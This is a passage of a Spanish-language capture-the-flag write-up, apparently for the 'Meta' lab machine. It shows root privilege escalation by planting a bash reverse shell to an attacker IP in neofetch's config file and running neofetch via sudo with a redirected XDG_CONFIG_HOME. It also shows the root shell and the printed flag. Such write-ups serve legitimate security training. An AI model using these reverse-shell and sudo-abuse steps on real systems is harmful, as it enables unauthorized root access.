 ```console
thomas@meta:~$ cat ~/.config/neofetch/config.conf
```

El archivo contiene muchas líneas, pero lo que nos interesa a nosotros es meter una shell inversa en este archivo para que se ejecute al leerlo el sistema.
Lo pondremos en la primera línea del archivo:

```text
thomas@meta:~$ cat ~/.config/neofetch/config.conf
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.15.113/9999 0>&1"
# See this wiki page for more info:
# https://github.com/dylanaraps/neofetch/wiki/Customizing-Info
print_info() {
    info title
```

Ahora si recordamos el output de **`sudo -l`** vemos que teníamos una variable de entorno llamada **`XDG_CONFIG_HOME`**,
la exportarmos para que apunte a los archivos de configuración del usuario **`thomas`**

```console
p3ntest1ng:~$ export XDG_CONFIG_HOME="$HOME/.config"
```

Ahora nos ponemos en escucha en nuestra máquina con **`netcat`**:

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
```

Y finalmente ejecutamos **`neofetch`** en la máquina Meta de esta forma (NOTA: estos pasos hay que realizarlos muy rápido, porque los archivos se sobreescriben y no persisten nuestros cambios):

```console
thomas@meta:~$ sudo -u root /usr/bin/neofetch \"\"
```

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.15.113] from (UNKNOWN) [10.10.11.140] 35808
root@meta:/home/thomas# whoami
whoami
root
root@meta:/home/thomas# 
```

En este punto ya tenemos el sistema completamente a nuestra merced, podríamos realizar el tratamiento de la shell pero en este caso yo no lo voy a hacer.

```console
root@meta:/home/thomas# cd /root; ls -la
cd /root; ls -la
total 28
drwx------  4 root root 4096 Jan 17 07:52 .
drwxr-xr-x 18 root root 4096 Aug 29 15:38 ..
lrwxrwxrwx  1 root root    9 Aug 29 16:00 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  4 root root 4096 Jan  4 10:10 .config
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Aug 30 13:01 conf
-rwxr-----  1 root root   33 Jan 25 20:09 root.txt
root@meta:~# cat root.txt
cat root.txt
3b7ae86ee0a2f788e5db285c464bdcdf
root@meta:~#
```
